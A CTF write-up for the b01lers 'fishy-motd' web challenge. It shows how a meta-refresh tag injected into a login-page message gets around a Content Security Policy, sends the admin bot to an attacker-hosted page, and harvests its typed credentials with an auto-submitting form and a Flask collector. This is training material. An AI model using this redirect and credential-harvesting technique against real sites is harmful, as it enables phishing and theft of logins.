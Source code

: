 
## fishy-motd (web, 263 points, 41 solves)

>I just created a tool to deploy messages to server admins in our company. They *love* clicking on them too!
`http://ctf.b01lers.com:5110`

## Overview

We're given a service that allow us to create custom [MOTDs](https://en.wikipedia.org/wiki/Message_of_the_day) which is going to be used in a login page.

We're also able to see the preview of the login page with our custom MOTD in it. Of course, we can deploy our MOTD and show it to admins.

This is a big hint, we can immediately tell that we need to do [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting).

## Analysis

Let's start by taking a look at the main page.

![main-page](imgs/main-page.png)

Let's try typing some HTML tags:

```html
<h1> yes </h1>
<img src="#" onerror="alert(1)">
<script> alert(1); </script>
<a href="https://example.com">Blablabla</a>
```

The login page will look like this:

![login-page](imgs/login-page-1.png)

Something is obviously wrong: our `alert` didn't pop. There's definitely something denying the execution of our javascript code... Something called [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 😭

>Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.

It's possible to specify the policy using HTTP headers or the `<meta>` tag.
We can see in the login page HTML the meta tag which contains the Content-Security-Policy:

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; style-src 'self'; form-action 'self'" />
```

In our case, the CSP consists of three directives:

- `default-src 'none'`, this directive serves as a fallback for the other CSP fetch directives.
- `style-src 'self'`, this directive specifies valid sources for stylesheets. In our case, the only valid source is `http://ctf.b01lers.com:5110`
- `form-action 'self'`, this directive restricts the URLs which can be used as the target of form submissions from a given context. In our case, the only valid target of form submissions is `http://ctf.b01lers.com:5110`.

So, here's what we're unable to do:

- Execute any javascript code
- Use custom CSS
- Submit data to external servers from the login page

But... How it's possible to redirect the admin without executing any javascript code?
Luckly for us, the `meta` tag allows us to do that.
Let's see if it works by typing the following line:

```html
<meta http-equiv="Refresh" content="0; url='https://google.com/'" />
```

![xss-video](videos/preview-xss-1.gif)

**YES!** Now we're able to redirect the admin anywhere we want.

## Let the games begin

Before doing 🐟fishy🐟 things, we need to understand what the admin does on the login page.
We can see inside the `index.js` file what the bot is going to do once on the login page.

```javascript
const adminBot = async (id) => {
    const browser = await puppeteer.launch({
        headless: true, // Uncomment below if the sandbox is causing issues
        // args: ['--no-sandbox', '--disable-setuid-sandbox', '--single-process']
    })
    const page = await browser.newPage();
    await page.setViewport({ width: 800, height: 600 });
    const url = `http://localhost:${port}/login?motd=${id}`;
    await page.goto(url);
    await page.mouse.click(10, 10);
    await new Promise(r => setTimeout(r, 1000));
    try {
        if (url !== await page.evaluate(() => window.location.href)) {
            return { error: "Hey! Something's fishy here!" };
        }
    } catch (err) {
        return { error: "Hey! Something's fishy here!" };
    }
    await new Promise(r => setTimeout(r, 5000));
    await page.mouse.click(420, 280);
    await page.keyboard.type(user);
    await page.mouse.click(420, 320);
    await page.keyboard.type(pass);
    await page.mouse.click(420, 360);
    await new Promise(r => setTimeout(r, 1000));
    await browser.close();
    messages[id] = undefined;
    return { error: null };
}
```

Ok, let's break down what the bot does:

- Visits `http://localhost:${port}/login?motd=${id}` using the specified id
- Clicks to position (10, 10) (maybe it will click on the MOTD, idk)
- Waits for one second
- Checks if the current page is the same as the page with the MOTD
- Waits for another five seconds
- Clicks in the position of the username field and writes the admin's username
- Clicks in the position of the password field and writes the admin's password
- Waits for one second

Luckly for us, the `meta` tag allows us to specify the redirect delay. Our final MOTD will look like this:

```html
<meta http-equiv="Refresh" content="1.1; url='https://my.webhook/'" />
```

Where `1.1` indicates the redirect delay (in seconds).

## Solution

Now let's create our server, which will collect the admin credentials. The dumbest way to accomplish this, is using a really wide textarea, and then redirect the admin after a bunch of seconds.

Our main page will look like this:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <title>lol</title>
    </head>
    <body>
        <form action="/lol" method="POST">
            <textarea name="credentials" style="min-width: 2000px; min-height: 1000px;"> </textarea>
        </form>
        <script>
            setTimeout(function () {
                document.getElementsByTagName("form")[0].submit();
            }, 4500);
        </script>
    </body>
</html>
```

We're going to use the Flask library, which will handle the POST requests for us.

```python
from flask import Flask, request, render_template

app = Flask(__name__)


@app.route("/lol", methods=["POST"])
def lol():
    credentials = request.form.get("credentials")
    print(f"{credentials = }")

    return "lol"


@app.route("/")
def index():
    return render_template("index.html")


app.run("0.0.0.0", 1337)
```

We can use [ngrok](https://ngrok.com/) to make our site accessible to everyone.

Finally, we can send our payload to the admin.

![final-xss-result](imgs/final-xss-result.png)

We can distinguish the username from the password easily, the correct credentials will be:

- username: **n01_5y54dm1n**
- password: **`7zzHuXRAp)uj@(qO@Zi0`**

If we use these credentials to log in, we get the flag!

`flag: bctf{ph15h1ng_reel_w1th_0n3_e}`

